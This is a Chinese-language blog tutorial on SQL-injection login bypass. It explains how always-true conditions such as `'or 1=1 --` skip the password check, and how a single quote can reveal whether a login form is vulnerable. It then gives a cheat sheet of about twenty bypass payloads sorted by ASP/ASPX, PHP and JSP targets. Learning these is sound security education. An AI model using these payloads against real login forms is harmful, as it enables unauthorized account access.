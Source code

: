 ```yaml
---
layout: post
tags: SQL注入 渗透测试
title: "SQL注入（二）"
category: SQL注入
---
```


##OR漏洞简述

该漏洞又称万能密码，效果是通过构造一个恒为真的语句来绕过用户名密码检测，不通过密码即可登录进去

##漏洞原理

由于程序对用户输入没有进行过滤，我们可以通过构造恒为真的语句来控制查询。
例如在我们输入用户名为 `admin` 密码为 `123` 时，SQL查询语句为
```
SELECT * FROM admin WHERE Name='admin' and passWord='123'
```
而我们通过构造语句在用户名处输入 `'or 1=1 --` 密码为任意值如 `111`此时查询语句变为
```
SELECT * FROM admin WHERE Name=''or 1=1 --' and passWord='111'
```
此时的效果是用户名为null，而后面加入了一个恒为真的语句 `1=1` 此时用户名部分是为真的。`--`表示注释掉后面所有的内容，因此在 `--` 后面的内容都失效了，密码不会进行判断。
原本程序设定应该是当这条SQL查询语句查询到用户名密码均正确时返回真，返回结果为真时登陆进界面。此时由于构造了一个为真的语句，我们便可以绕过用户名密码进行登陆。

##判断方法

在输入框输入单引号进行登陆，若有报错说明没有对单引号进行过滤，存在此漏洞

##不同类型程序的万能密码

应该注意的是不同类型的数据库程序所使用的语法不同，以下内容转自[chengker](http://chengkers.lofter.com/post/14c64b_379726)的博客

###asp aspx万能密码

* `"or "a"="a`
* `')or('a'='a`
* `or 1=1--`
* `'or 1=1--`
* `a'or' 1=1--`
* `"or 1=1--`
* `'or'a'='a`
* `"or"="a'='a`
* `'or''='`
* `'or'='or'`
* `1 or '1'='1'=1`
* `1 or '1'='1' or 1=1`
* `'OR 1=1%00`
* `"or 1=1%00`
* `'xor`
* `用户名 ' UNION Select 1,1,1 FROM admin Where ''=' （替换表名admin） 密码 1`
* `..admin' or 'a'='a 密码随便`

###PHP万能密码

* `'or 1=1/*`
* `User: something`
* `Pass: ' or '1'='1`

###jsp 万能密码

* `1'or'1'='1`
* `admin' or 1=1/*`